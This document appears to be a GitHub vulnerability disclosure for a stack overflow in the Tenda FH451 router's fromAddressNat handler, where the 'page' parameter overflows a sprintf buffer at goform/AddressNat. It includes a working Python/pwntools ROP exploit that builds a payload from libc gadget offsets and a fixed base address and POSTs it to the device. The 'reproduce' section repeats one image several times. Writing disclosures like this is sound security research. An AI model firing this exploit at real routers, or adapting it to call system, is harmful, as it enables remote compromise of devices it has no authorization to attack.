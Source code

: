 # Shenzhen Jixiang Tengda Technology Co., Ltd. FH451 has a Remote Code Execution vulnerability

**Vulnerability URL**: [http://0.0.0.0:80/goform/AddressNat](http://0.0.0.0:80/goform/AddressNat)

**Firmware Download Link:** [https://www.tenda.com.cn/material/show/1629](https://www.tenda.com.cn/material/show/1629)

## Vulnerability Analysis
The vulnerability occurs in the `fromAddressNat` function.

![Image 1](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/fromAddressNat1.png)

The program retrieves the user input parameter `page` at line 14 but does not perform any size check. When the parameter value is excessively large, it will causes a stack overflow in the `sprintf` function at line 15, which can lead to a program crash or potential exploitation.  
Cross-referenced location: from the `fromAddressNat` function, routed to `AddressNat`, at line 73.
![Image 2](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/fromAddressNat2.png)
Further cross-referenced to the `sub_64EAC` function, with attention to lines 44 and 47.
![Image 3](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/fromAddressNat3.png)

It can be determined that the vulnerability occurs at the page path `goform/AddressNat`.

## payload
```python
import requests
from pwn import *

libc = ELF('./lib/libc.so.0')
system_offset = libc.symbols["system"]
base = 0x3fe36000

system_addr = base + system_offset
puts = base+libc.symbols['puts']
str = b"hello-I-am-fzz\x00"
mov_r0 = base+0x00040cb8 # mov r0, sp; blx r3;
pop_r3 = base+0x00018298 # pop {r3, pc};

url = "http://0.0.0.0:80/goform/addressNat"
payload = b'a'*256 + p32(pop_r3)+p32(puts)+p32(mov_r0)+str
data = {"page": payload}
res = requests.post(url, data=data)
```

# reproduce
![Image 3](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/fromAddressNat3.png)
![Image 3](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/fromAddressNat3.png)
![Image 3](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/fromAddressNat3.png)
![Image 3](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/fromAddressNat3.png)
![Image 3](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/fromAddressNat3.png)
![Image 3](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/fromAddressNat3.png)
